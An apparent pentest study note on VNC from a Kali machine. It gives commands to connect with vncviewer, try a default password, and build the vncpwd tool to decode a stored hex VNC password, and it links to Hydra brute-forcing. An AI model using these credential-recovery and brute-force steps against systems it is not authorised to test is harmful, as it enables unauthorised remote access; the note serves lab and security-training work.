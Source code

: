 #### Accessing VNC
```bash - kali
vncviewer $TARGET
```

- use `SHIFT` + `CONTROL` + `ALT` + `DEL` to unlock screen

```bash - kali
password
```

#### Cracking hex VNC password

![[Pasted image 20220114162956.png]]

```bash - kali
git clone https://github.com/jeroennijhof/vncpwd
```

```bash - kali
cd vncpwd
```

```bash - kali
sudo make
```

```bash - kali
./vncpwd <(echo '6bcf2a4b6e5aca0f' | xxd -r -p)
```

![[Pasted image 20220114162832.png]]

#### Attacking VNC
https://www.hackingarticles.in/password-crackingvnc/

![[TechLexicon/Penetration Testing/Reference/7._Tools/Hydra#Hydra against VNC]]
